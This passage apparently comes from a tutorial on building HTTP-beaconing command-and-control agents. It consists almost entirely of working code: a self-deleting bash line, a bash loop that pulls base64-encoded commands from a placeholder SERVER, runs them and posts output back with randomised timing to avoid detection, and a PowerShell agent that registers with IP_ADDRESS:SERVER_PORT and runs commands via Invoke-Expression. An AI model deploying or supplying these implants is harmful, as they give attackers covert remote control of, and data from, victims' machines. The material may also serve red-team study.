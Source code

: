 ```

#Deletes itself
rm -- "$0"

```
As the server waits indefinitely for HTTP connections, a trickier beaconing regime is possible, using `/dev/random` to adjust its beaconing frequency slightly:

```
#Snippet

export flag=$(curl -s SERVER/control/$ID)
while [ $flag -ne 0 ];
do
    export cmd=$(curl -s SERVER/stdin/$ID | base64 -d);
    export timer=$(($(od -An -N1 -i /dev/random) % 9 + 1)) #$((...)) performs arithmetic evalution of its contents 
    sleep $(($timer*5));
    echo "stdout=`${cmd} | base64`" | curl -d @- SERVER/stdout/$ID; #executes cmd and relays stdout in POST request body
    sleep $(($timer*7));
    unset cmd;
    export flag=$(curl -s SERVER/control/$ID);
    sleep $(($timer*3));
    unset timer;
done

```
One can do something similar with Powershell. The below Powershell agent performs regular HTTP beaconing and will de-register itself once it detects that the control flag is de-activated:

```
$ip = IP_ADDRESS
$port = SERVER_PORT
$server_url = "http://" + "$ip" + ":" + "$port/"

$ID = (Invoke-WebRequest -Uri ($server_url + "register")).Content

$flag = (Invoke-WebRequest -Uri ($server_url + "control/$ID")).Content

while ($flag -eq "1"){

    $cmd64 = (Invoke-WebRequest -Uri ($server_url + "stdin/$ID")).Content
    $cmd = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($cmd64))
    Start-Sleep -Seconds 10
    $output = Invoke-Expression $cmd
    $data = @{stdout = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes($output))}
    Invoke-WebRequest -Uri ($server_url + "stdout/$ID") -Body $data -Method 'POST' > $null
    Start-Sleep -Seconds 60
    $flag = (Invoke-WebRequest -Uri ($server_url + "control/$ID")).Content
    Start-Sleep -Seconds 10
}

Invoke-WebRequest -Uri ($server_url + "bye/$ID") > $null
```
